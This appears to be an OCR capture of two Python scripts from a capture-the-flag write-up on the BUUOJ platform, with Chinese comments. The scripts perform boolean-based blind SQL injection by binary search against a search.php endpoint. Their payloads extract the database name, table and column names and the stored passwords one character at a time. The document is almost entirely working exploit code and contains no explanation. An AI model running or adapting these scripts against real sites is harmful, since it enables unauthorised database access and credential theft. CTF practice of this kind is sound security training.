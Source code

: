 

```plain
import time
import requests
url = ""
result = ''
i = 0
while True:
i = i + 1
head = 32
tail = 127
while head < tail:
mid = (head + tail) >> 1
# payload = '(ascii(substr(database(),%d,1))>%d)' % (i, mid)
# payload = f'(ascii(substr((select(group_concat(table_name))from(information_schema.tables)where(table_schema=database())),{i},1))>{mid})'
# payload = f'(ascii(substr((select(group_concat(column_name))from(information_schema.columns)where(table_name="F1naI1y")),{i},1))>{mid})'
payload = f'(ascii(substr((select(group_concat(password))from(F1naI1y)),{i},1))>{mid})'
r = requests.get(url + payload)
# print(r.text)
time.sleep(0.1)
if "Click" in r.text:
head = mid + 1
else:
tail = mid
if head != 32:
result += chr(head)
else:
break
print(result)
Plain Text
```



```plain
import requests
import time
# url是随时更新的，具体的以做题时候的为准
url = 'http://8d08c7b6-e6f3-4df0-b71c-a2a397891bab.node3.buuoj.cn/search.php?id='
i = 0
flag = ''
while True:
i += 1
# 从可打印字符开始
begin = 32
end = 126
tmp = (begin + end) // 2
while begin < end:
print(begin, tmp, end)
time.sleep(0.1)
# 爆数据库
# payload = "''or(ascii(substr(database(),%d,1))>%d)" % (i, tmp)
# 爆表
# payload = "''or(ascii(substr((select(GROUP_CONCAT(TABLE_NAME))from(information_schema.tables)where(TABLE_SCHEMA=database())),%d,1))>%d)" % (i, tmp)
# 爆字段
# payload = "''or(ascii(substr((select(GROUP_CONCAT(COLUMN_NAME))from(information_schema.COLUMNS)where(TABLE_NAME='F1naI1y')),%d,1))>%d)" % (i, tmp)
# 爆flag 要跑很久
# payload = "''or(ascii(substr((select(group_concat(password))from(F1naI1y)),%d,1))>%d)" % (i, tmp)
# 爆flag 很快
payload = "''or(ascii(substr((select(password)from(F1naI1y)where(username='flag')),%d,1))>%d)" % (i, tmp)
```